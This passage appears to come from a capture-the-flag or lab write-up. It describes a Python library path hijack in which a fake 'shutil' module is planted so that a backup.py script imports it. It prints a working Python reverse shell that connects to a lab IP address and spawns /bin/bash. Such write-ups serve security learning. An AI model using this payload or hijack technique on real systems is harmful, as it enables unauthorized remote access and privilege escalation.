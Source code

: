 ![](./IMG/52.png)

> It point to the other python file --> backup.py
> And this python script will import a library --> shutil
> So I think I can do the python path hijacking to make it execute the fake library


![](./IMG/53.png)

> I need to create the malicious file first 
> After several testing, the following one will work

```
import socket
import subprocess
import os
import pty

s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("10.10.17.145",1336))

os.dup2(s.fileno(),0) 
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)

pty.spawn("/bin/bash")

```
